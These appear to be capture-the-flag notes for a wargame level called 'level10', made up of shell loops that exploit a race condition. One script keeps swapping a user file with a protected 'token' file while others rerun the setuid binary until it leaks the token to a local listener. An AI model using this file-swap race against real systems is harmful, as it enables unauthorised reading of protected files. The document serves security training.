 https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf


#!/bin/sh

while true
do
	touch file
	./level10 file 0.0.0.0
	if [ $? -eq 0 ]; then
		break;
	else
		rm -rf file
	fi
done


// 
while true; do ./level10 msg 0.0.0.0; done;



#!/bin/sh


while true
do
	mv token tmp
	mv file token
	mv tmp file
done


#!/bin/sh

while true
do
	./level10 file 0.0.0.0
	if [ $? -eq 0 ]; then
		break;
	fi
done